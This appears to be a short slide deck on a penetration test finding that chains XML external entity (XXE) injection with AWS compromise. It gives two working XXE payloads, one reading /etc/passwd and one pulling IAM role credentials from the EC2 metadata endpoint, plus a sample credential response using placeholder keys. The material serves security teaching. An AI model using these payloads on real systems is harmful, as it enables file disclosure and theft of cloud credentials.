 # XXE and AWS Compromise

---

## @fa[book](Background)
![diagram](xxe-aws-compromise/assets/diagram1.png)

---

## @fa[code](XML Entities)
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>

<foo>&xxe;</foo>
```

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln1.png)

---

## @fab[aws](AWS Metadata)
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-iam-role" >
]>

<foo>&xxe;</foo>
```

`http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-iam-role`

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln2.png)

---

## @fas[terminal](Metadata response)
```json
{
  "Code" : "Success",
  "LastUpdated" : "2019-07-01T12:11:43Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "AKIAIOSFODNN7EXAMPLE",
  "SecretAccessKey" : "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY",
  "Token" : "************",
  "Expiration" : "2019-07-01T18:46:08Z"
}
```

---

## @fa[file-signature](Pentest Report)
![diagram](xxe-aws-compromise/assets/vuln3.png)

---